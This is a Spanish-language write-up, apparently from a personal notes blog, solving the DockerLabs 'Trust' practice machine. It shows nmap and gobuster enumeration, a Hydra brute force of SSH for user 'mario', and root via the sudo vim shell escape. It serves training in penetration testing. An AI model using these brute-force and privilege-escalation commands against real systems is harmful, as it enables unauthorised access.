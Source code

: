 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - DockerLabs
  - Linux
  - HTTP
  - Hydra
  - SSH
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#HTTP|HTTP]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Sudo|Sudo]]

---
# Resolviendo la máquina Trust

>En esta publicación, comparto cómo resolví la máquina **Trust** de [DockerLabs](https://dockerlabs.es/).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 172.18.0.2`

![[Pasted image 20250713134510.png]]

*TTL=63* -> **Linux**
### Nmap

Escaneo inicial de puertos.

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts`

![[Pasted image 20250713134716.png]]

`nmap -p22,80 -sCV 172.18.0.2 -oN targets`

![[Pasted image 20250713134744.png]]
### Fuzzing Web

Se realiza **Fuzzing Web** para buscar directorios.

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json`

![[Pasted image 20250713134844.png]]

---
## Explotación
### HTTP

`http://172.18.0.2/secret.php`

![[Pasted image 20250713134916.png]]
### Hydra

Se realiza un ataque de *fuerza bruta* sobre el servicio **SSH**.

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2`

![[Pasted image 20250713135030.png]]
### SSH

Accedemos al sistema mediante **SSH** con las credenciales obtenidas.

`ssh mario@172.18.0.2`

![[Pasted image 20250713135121.png]]
### Sudo

`sudo -l`

![[Pasted image 20250713135206.png]]

Se realiza una búsqueda por  [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) para el permiso [vim](https://gtfobins.github.io/gtfobins/vim/#sudo).

![[Pasted image 20250713135338.png]]

`sudo vim -c ':!/bin/sh'`

![[Pasted image 20250713135404.png]]